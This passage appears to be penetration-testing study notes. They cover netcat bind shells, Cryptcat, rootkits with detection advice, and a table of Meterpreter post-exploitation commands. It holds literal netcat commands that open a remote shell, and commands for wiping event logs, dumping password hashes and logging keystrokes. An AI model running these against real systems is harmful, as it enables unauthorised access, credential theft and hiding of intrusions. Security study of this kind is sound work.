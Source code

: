 linux command: nc -l -p 12345 -e /bin/sh

windows command: nc -L -p 12345 c:\Windows\System32\cmd.exe

### Netcat's mysterious family member: Cryptcat

 The disadvantage of Netcat is that all traffic flowing through the Netcat server and client is in clear text. Anyone viewing the traffic or sniffing the connection can see and monitor the information transferred between computers. Cryptcat uses twofish for encryption. 

### Rootkit

Rootkit operates in the relatively low-level kernel of the operating system. It is generally used to hide files or programs and keep backdoor access concealed. 

Note: You must ensure that the client has permission to use Rootkit before using Rootkit for penetration testing. 

Hacker Defender: A powerful rootkit. 

### Rootkit Detection and Defense

 We know that in order to configure and install Rootkits, administrator rights must be used. Therefore, the first step to avoid Rootkits is to reduce user rights. Second, install, use and maintain the latest version of the software. Third, monitor the incoming and outgoing traffic on your network. Fourth, perform port scans on the system regularly and record every port opened on each system. Use some tools that can discover hidden files and rootkits, such as Rootkit Revealer, vice, etc. 

### Meterpreter: Omnipotent

Meterpreter basic command: 

 command | Function
--- | ---
cat file_name | Display the content of the specified file
clearev | Clear the target machine application All events reported in program, system and security logs 
download <source_file><destination_file> | Download the specified file from the target to the local host
edit | Provide a VIM editor that can make changes to the document
execute -file_name | Run/execute the specified file on the target
getsystem | The command meterpreter attempts to elevate the permissions to the highest level
hashdump | Locates and displays the username and hash on the target, which can be copied into text for John the Ripper to crack
idletime | Displays the time the machine has been inactive
keyscan_dump | Display keystrokes currently captured from the target computer (keyscan_start must be run first) 
keyscan_start | Start recording keystrokes on the target (in order to capture keystrokes, must be moved to the explorer.exe process) 
keyscan_stop | Stop recording user keystrokes 
kill pid_number | Stop the specified process (the process ID can be found by running the ps command) 
migrate | Move the meterpreter shell to another running process 
ps | Print a list of all processes running on the target
screenshot | Provide screenshots from the target machine
search -f file_name | Search for the specified file on the target machine
sysinfo | Provide relevant system information of the target machine
upload <source_file><destination_file> | Upload the specified file from your attack machine to the target machine
